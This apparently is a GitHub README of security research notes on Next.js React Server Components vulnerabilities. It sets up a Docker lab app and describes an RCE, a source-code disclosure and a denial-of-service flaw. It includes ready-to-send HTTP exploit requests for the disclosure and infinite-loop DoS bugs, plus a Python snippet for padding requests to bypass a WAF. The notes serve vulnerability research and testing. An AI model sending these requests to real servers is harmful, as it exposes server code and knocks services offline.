




# Next.Js React Server Components (RSC) Vulnerabilities

This repository contains research notes and technical analysis of multiple security vulnerabilities affecting **React Server Components (RSC)** and **Next.js App Router** implementations.  
The issues described below impact the RSC Flight protocol and Server Functions (Server Actions), and may lead to **remote code execution**, **source code disclosure**, or **denial of service** under certain conditions.

---

## Overview of affected projects

React Server Components rely on an internal serialization protocol known as **React Flight** to exchange data between the client and the server.  
Next.js builds on top of this protocol to implement:

- App Router (folders `/app` or `/src/app` in project)
- Vulnerable version of Next.Js

Projects with page router not vulnerable to all of this CVEs.

For `CVE-2025-55183` there is additional conditions:

- Server Functions / Server Actions (check `vulnerable_app/app/action.ts`)
- This function explicitly or implicitly exposes a stringified argument

Several vulnerabilities were identified in how **untrusted HTTP input** is deserialized and processed by the RSC runtime.

Test payloads on routes from `app/`

### Possible passive detection of attack vector

Via header `Vary`



---

## Vulnerable stand deployment

To test this CVEs you can use vulnerable app:
```bash
cd vulnerable_app
docker-compose up -d --build
```

Then open http://localhost:3000/test123

---

## CVE-2025-55182 — React Server Components Remote Code Execution

### Description

CVE-2025-55182 is a **pre-authentication remote code execution (RCE)** vulnerability caused by unsafe deserialization logic in the React Flight protocol.

By sending a specially crafted HTTP `POST` request to a Server Function endpoint, an attacker may exploit **prototype pollution** during Flight payload deserialization.  
This can result in arbitrary JavaScript execution on the server.

This vulnerability has been reported as **actively exploited in the wild**.

The vulnerability exists in the React Flight protocol's deserialization logic. By sending a malicious payload via HTTP POST, an attacker can achieve prototype pollution that leads to arbitrary code execution on the server.


---

## CVE-2025-55183 - Server Function Source Code Disclosure

A source code disclosure vulnerability in Next.js React Server Components (RSC). A malicious HTTP request sent to a vulnerable Server Function may unsafely return the source code of any Server Function when the argument is stringified.


### Exploitation  


Find server action:
```http
GET /test123 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: text/x-component
Connection: keep-alive


```


Get source code of server function:

```http
POST /test123 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: text/x-component
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Next-Action: 40e9cee7bf4c39cb1a525b85206b26e082f320de25
Content-Length: 111

0=%5B%22%24F1%22%5D&1=%7B%22id%22%3A+%2240e9cee7bf4c39cb1a525b85206b26e082f320de25%22%2C+%22bound%22%3A+null%7Ds

```




---

## CVE-2025-55184 - Server Components Denial of Service

Insecure deserialization vulnerability caused by unsafe payload deserialization in Server Function endpoints, letting unauthenticated attackers cause denial of service by hanging the server process.

### Detection

Use nuclei template for safe detection.

### Exploitation

There is not any response because server starts infinite loop
```http
POST /test123 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Next-Action: x
Content-Length: 138
Content-Type: multipart/form-data; boundary=5f6017f1012645cb164df4e527c366d5

--5f6017f1012645cb164df4e527c366d5
Content-Disposition: form-data; name="0"; filename=""

"$@0"
--5f6017f1012645cb164df4e527c366d5--

```




---

## Possible WAF bypass


- [use same technique](https://github.com/assetnote/react2shell-scanner/blob/master/scanner.py)

```py
def generate_junk_data(size_bytes: int) -> tuple[str, str]:
    """Generate random junk data for WAF bypass."""
    param_name = ''.join(random.choices(string.ascii_lowercase, k=12))
    junk = ''.join(random.choices(string.ascii_letters + string.digits, k=size_bytes))
    return param_name, junk

if waf_bypass:
        param_name, junk = generate_junk_data(waf_bypass_size_kb * 1024)
        parts.append(
            f"------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
            f'Content-Disposition: form-data; name="{param_name}"\r\n\r\n'
            f"{junk}\r\n"
        )
```


---

## References

- [Vercel blog (Security Bulletin: CVE-2025-55184 and CVE-2025-55183)](https://vercel.com/kb/bulletin/security-bulletin-cve-2025-55184-and-cve-2025-55183#patched-versions)

- [React blog](https://react.dev/blog/2025/12/11/denial-of-service-and-source-code-exposure-in-react-server-components)